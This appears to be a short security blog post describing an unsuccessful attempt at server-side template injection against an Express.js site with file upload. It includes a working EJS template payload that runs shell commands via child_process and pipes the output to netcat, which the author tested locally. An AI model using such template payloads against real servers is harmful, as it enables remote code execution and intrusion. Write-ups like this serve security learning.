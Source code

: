 ```yaml
---
layout: post
title:  "An unsuccessful expressjs SSTI story"
tags: [ssti,expressjs]
---
```


## Recon
Response Header `x-powered-by: express`.  An expressjs website.

modify a request packet in burp. We get an error.
`Failed to lookup view "error" in views directory /[redacted]/[dir]` 

We get the dir of the view. And you can upload arbitrary file to the website.

## Can we SSTI

At first, I want to upload a normal shell. It can't be executed.
After I got the error message, I thought maybe we can upload a view file. And then we trigger the error request. Express will look up for the error view which is uploaded by us. So what can we do ?

After reading the Jade technique[1], I think we can use ssti to get a shell.

First we setup the enviroment. Then we get the examples[2] running.

404.ejs
```
<% include error_header %>
<h2>Cannot find <%= url %></h2>
<% include footer %>
```
So we can put nodejs code between `<%` and `%>`.
We use the code from the Jade example. Modify it to adjust the ejs template engine.


```
<% include error_header %>
<h2>Cannot find <%= url %></h2>
<% include footer %>

<% var x = process.mainModule.require;
x = x('child_process'); 
x.exec('whoami | nc 127.0.0.1 8080');
%>
```

Then we listen on port 8080 with python. Visiting the 404 url, we get the name on the python terminal. So we can use template to inject nodejs code, then we can get a shell.

Because `require` is not a global variable, we need to use `process.mainModule.require` to get it. The rest is normal nodejs code. `require('child_process').exec('whoami')`

I upload the file with the name 'error.ejs'. We don't get anything.

I thought maybe the extension is not 'ejs'. Because you can define it in the code.
I tried `.jade` and `.html`. Still we get nothing.

Because the dir is not public, I can't confirm whether it has been uploaded sucessfully or not. 

So this is an unscucessful expressjs SSTI story. But I learned that we can do SSTI in expressjs+ejs too.


[1] [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)  
[2] [Expressjs  error pages example](https://github.com/expressjs/express/tree/master/examples/error-pages)
